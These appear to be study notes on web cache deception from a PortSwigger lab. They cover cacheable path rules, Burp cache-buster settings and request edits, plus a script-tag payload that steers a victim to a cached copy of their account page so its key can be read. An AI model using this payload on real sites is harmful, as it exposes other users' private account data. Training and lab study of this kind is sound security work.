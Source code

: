 **Web cache deception attacks**
- 靜態目錄規則: /static/ or /assets/
- 檔案名稱規則: robots.txt or favicon.ico
- 專注於支援GET、HEAD或OPTIONS方法的端點
- 建構一個惡意 URL
- cache buster
	- Burp extension : Param miner > Settings > Add dynamic cachebuster
	- 向路徑添加查詢字串並在每次發送請求時進行更改來更改鍵
	- Burp 現在會為您發出的每個請求添加唯一的查詢字串。
	- 您可以在「Logger 」標籤中查看新增的查詢字串
	- Cache-Control header
   
Lab : https://0a86005804fbe54880ed3f7400d6000d.web-security-academy.net/
Request:
- change /my-account/ to /my-account/abc.js
- add X-Cache: miss 
- add Cache-Control: max-age=30 
Response:
- X-Cache chnage to hit -- > X-Cache: hit

=> Create 惡意 website (html)
- <script>document.location="https://YOUR-LAB-ID.web-security-academy.net/my-account/wcd.js"</script>
- After others login , we can access this website , get /my-account/wcd.js to get key

/* 
- X-Cache: miss : 此回應不是從快取提供
- X-Cache: hit : 該請求來自快取
- Cache-Control: max-age=30 : 如果回應已被緩存，則應將其儲存 30 秒
*/
